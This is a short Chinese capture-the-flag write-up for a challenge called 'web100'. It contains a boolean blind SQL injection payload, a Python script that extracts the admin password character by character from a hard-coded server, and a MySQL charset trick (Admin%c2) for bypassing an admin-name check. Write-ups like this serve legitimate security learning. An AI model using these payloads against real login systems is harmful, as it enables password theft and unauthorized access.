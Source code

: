 ## web100 writeup 

bool 盲注出 passwd

payload: `admin'^!(mid((passwd)from(-1))='a')='1' from user;`

poc:

```python
#!/usr/bin/python
# coding:utf-8 

import requests 
import string

s = string.ascii_letters + string.digits
url = "http://39.108.154.135:8000?action=show"

def getPassword():
    username = "admin'^!(mid((passwd)from(-{pos}))='{passwd}')='1"
    passwd = ""
    for p in range(1,34):
        print(passwd)

        for i in s:
            passwdTmp = i + passwd
            data = {"username": username.format(pos=str(p), passwd=passwdTmp)}
            
            # print data
            res = requests.post(url ,data)
            if "admin" in res.text:
                passwd = passwdTmp
                break


if __name__ == "__main__":
    getPassword()
```

尝试用 sqlmap 注入结果注不出来。。。有师傅会的能提点一下吗

最后用 mysql 的字符编码问题,绕过对 admin 的判断

参考[Mysql字符编码利用技巧](https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html)

post
```
username=Admin%c2&passwd=注入出来的密码
```
